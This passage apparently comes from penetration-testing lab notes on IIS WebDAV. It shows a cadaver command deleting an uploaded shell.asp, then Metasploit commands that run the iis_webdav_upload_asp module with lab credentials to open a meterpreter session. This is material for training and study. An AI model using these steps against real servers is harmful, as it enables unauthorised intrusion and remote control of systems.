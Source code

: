 - Use cadaver to delete the `shell.asp` uploaded file

```bash
cadaver http://10.4.18.218/webdav
delete shell.asp
```

### metasploit - automatic

- Use Metasploit [iis_webdav_upload_asp](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/) module to get a `meterpreter` session on the target system.

```bash
msfconsole
```

```bash
search iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.4.22.96	# Lab reset = IP changed
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit.asp
exploit
```

![Metasploit iis_webdav_upload_asp](windows-attacksassets/image-20230310163439597.png)
